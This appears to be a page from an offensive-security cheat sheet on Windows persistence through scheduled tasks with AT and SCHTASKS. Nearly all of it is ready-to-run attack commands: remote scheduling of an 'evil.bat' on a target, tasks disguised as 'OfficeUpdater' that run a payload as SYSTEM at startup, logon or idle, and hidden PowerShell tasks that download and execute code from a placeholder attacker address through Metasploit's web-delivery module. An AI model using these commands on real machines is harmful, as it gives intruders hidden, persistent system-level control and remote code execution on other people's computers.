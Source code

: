 #### Task Scheduling

##### AT

Executes as system and must be an Admin to run it. Check groups with whoami /groups

```
    at 13:20 /interactive cmd

    net user \\target /user:Domain\user pass
    net time \\target
    at \\target 13:20 c:\temp\evil.bat
```

##### SCHTASKS

Any user can create a task

Schedule a binary to run with arguments on system events

```
    #On System Startup
    schtasks /create /TN OfficeUpdaterA /tr ""c:\evil32.exe" -k password -n services" /SC onstart /RU system /RL HIGHEST
    schtasks /create /TN OfficeUpdaterD /tr "\"c:\Program Files\evil32.exe\" -k password -n services" /SC onstart /RU system /RL HIGHEST

    #On User Login
    schtasks /create /TN OfficeUpdaterB /tr ""c:\evil32.exe" -k password -n services" /SC onlogon
    schtasks /create /TN OfficeUpdaterE /tr "\"c:\Program Files\evil32.exe\" -k password -n services" /SC onlogon

    #On Idle
    schtasks /create /TN OfficeUpdaterC /tr ""c:\evil32.exe" -k password -n services" /SC onidle /i 30''''
    schtasks /create /TN OfficeUpdaterF /tr "\"c:\Program Files\evil32.exe\" -k password -n services" /SC onidle /i 60
```

Use the Powershell Web Delivery (Download and Execute) module in Metasploit 'exploit\windows\misc\psh_web_delivery'

```
    #(X86) - On User Login
    schtasks /create /tn OfficeUpdaterA /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onlogon /ru System

    #(X86) - On System Start
    schtasks /create /tn OfficeUpdaterB /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onstart /ru System

    #(X86) - On User Idle (30mins)
    schtasks /create /tn OfficeUpdaterC /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onidle /i 30

    #(X64) - On User Login
    schtasks /create /tn OfficeUpdaterA /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onlogon /ru System

    #(X64) - On System Start
    schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onstart /ru System

```